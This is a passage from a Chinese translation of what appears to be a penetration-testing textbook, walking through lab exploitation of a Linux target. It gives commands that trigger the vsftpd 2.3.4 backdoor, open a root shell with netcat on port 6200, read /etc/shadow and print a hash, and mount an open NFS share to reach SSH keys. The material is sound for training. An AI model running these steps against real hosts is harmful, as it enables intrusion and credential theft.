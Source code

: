 如你所见，在利用 TikiWiki 安装漏洞时，Metasploit 模块发现了 TikiWiki 数据库的凭据❸。不幸的是，MySQL 服务器没有在网络上监听，因此这些凭据无法用于进一步的攻破。不过，我们应该记录下来，因为它们可能在后期利用时派上用场。

## 利用已被攻破的服务

我们在第六章中提到，Linux 目标上的 FTP 服务器提供了 Very Secure FTP 2.3.4 的版本公告，这个版本被替换为包含后门的二进制文件。因为官方代码最终被 Vsftpd 的作者恢复，唯一能确认我们 Linux 目标上的服务器是否有后门代码的方法就是进行测试。（如果该服务器没有后门代码，我们只会在使用笑脸符号时收到登录错误，不需要担心可能导致服务崩溃。）

输入你喜欢的任何用户名，并在末尾加上 `:)`（见示例 8-9）。密码也可以随便填。如果后门存在，它将会在没有有效凭据的情况下触发。

示例 8-9. 触发 Vsftpd 后门

```
root@kali:~# **ftp 192.168.20.11**
Connected to 192.168.20.11.
220 (vsFTPd 2.3.4)
Name (192.168.20.11:root): georgia:)
331 Please specify the password.
Password:
```

我们注意到密码输入后登录被挂起。这告诉我们 FTP 服务器仍在处理我们的登录尝试，如果我们再次查询 FTP 端口，它将继续响应。让我们使用 Netcat 尝试连接到端口 6200，如果后门存在的话，根 shell 应该会在该端口启动。

```
root@kali:~# **nc 192.168.20.11 6200**
# **whoami**
root
```

果然，我们获得了一个 root shell。根权限让我们完全控制目标机器。例如，我们可以使用命令`cat /etc/shadow`获取系统密码哈希。将用户*georgia*的密码哈希(*georgia:$1$CNp3mty6$|RWcT0/PVYpDKwyaWWkSg/:15640:0:99999:7:::*)保存到一个名为*linuxpasswords.txt*的文件中。我们将在第九章尝试将这个哈希转换为明文密码。

## 利用开放的 NFS 共享

在这一点上，我们知道 Linux 目标已经通过 NFS 导出了*georgia*的主文件夹，并且该共享对任何人开放，无需凭证即可访问。但如果我们无法使用访问权限读取或写入敏感文件，这可能不会带来太大的安全风险。

回想一下，当我们在第六章扫描 NFS 挂载时，我们看到了*.ssh*目录。这个目录可能包含用户的私有 SSH 密钥以及用于通过 SSH 验证用户的密钥。让我们看看能否利用这个共享。首先，在你的 Kali 系统上挂载 NFS 共享。

```
root@kali:~# **mkdir /tmp/mount**
root@kali:~# **mount -t nfs -o nolock 192.168.20.11:/export/georgia /tmp/mount**
```

一开始这看起来并不太有希望，因为*georgia*没有文档、图片或视频——只有一些我们将在第十六章中使用的简单缓冲区溢出示例。这里似乎没有敏感信息，但在我们得出结论之前，让我们看看*.ssh*目录里有什么。

```
root@kali:~# **cd /tmp/mount/.ssh**
root@kali:/tmp/mount/.ssh# **ls**
authorized_keys  id_rsa  id_rsa.pub
```

我们现在可以访问*georgia*的 SSH 密钥。*id_rsa*文件是她的私钥，*id_rsa.pub*是她的对应公钥。我们可以读取甚至更改这些值，并且我们可以写入 SSH 文件*authorized_keys*，它管理着一个授权登录为*georgia*用户的 SSH 公钥列表。由于我们拥有写权限，我们可以在这里添加自己的密钥，这将允许我们在以*georgia*身份登录 Ubuntu 目标时绕过密码认证，正如在示例 8-10 中所示。
